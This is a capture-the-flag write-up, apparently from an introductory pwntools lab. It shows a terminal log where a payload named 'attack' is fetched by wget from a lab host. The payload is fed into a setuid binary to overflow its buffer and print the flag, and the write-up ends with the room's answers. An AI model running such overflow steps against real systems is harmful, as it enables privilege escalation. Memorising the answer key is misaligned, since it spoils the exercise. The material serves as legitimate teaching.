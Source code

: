 ```
-rwsrwxr-x 1 dizmas dizmas 7.3K May 19  2021 intro2pwn3
-rw-rw-r-- 1 buzz   buzz    100 Feb 17 22:21 pattern
-rw-rw-r-- 1 buzz   buzz    120 Feb 17 22:34 pwn_cyclic.py
-rw-rw-r-- 1 buzz   buzz    359 Jun 10  2021 test_cyclic.c
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ wget http://10.8.19.103:1337/attack
--2023-02-17 23:59:20--  http://10.8.19.103:1337/attack
Connecting to 10.8.19.103:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 41 [application/octet-stream]
Saving to: ‘attack’

attack                   100%[==================================>]      41  --.-KB/s    in 0s      

2023-02-17 23:59:21 (3.23 MB/s) - ‘attack’ saved [41/41]

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ cat attack
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaa6�
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ ./intro2pwn3 < attack
I run as dizmas.
Who are you?: Getting Flag:
flag{13@rning_2_pwn!}

:)
```


Which user owns both the flag.txt and intro2pwn3 file?

*dizmas*

Use checksec on intro2pwn3. What bird-themed protection is missing?

What is the name of the token that detects an overflow?

*canary*

What ascii letter sequence is 0x4a4a4a4a (pwndbg should tell you).

You can also use a hex to ascii converter.

*JJJJ*

What is the output of "cyclic 12"?

*aaaabaaacaaa*

What pattern, in hex, was the eip overflowed with?

	Format: 0x******** ; What is 'jaaa' in hex (little endian)?

*0x6161616a*

I have overflowed the eip with 0xdeadbeef

 Completed

What is the flag?

*flag{13@rning_2_pwn!}*
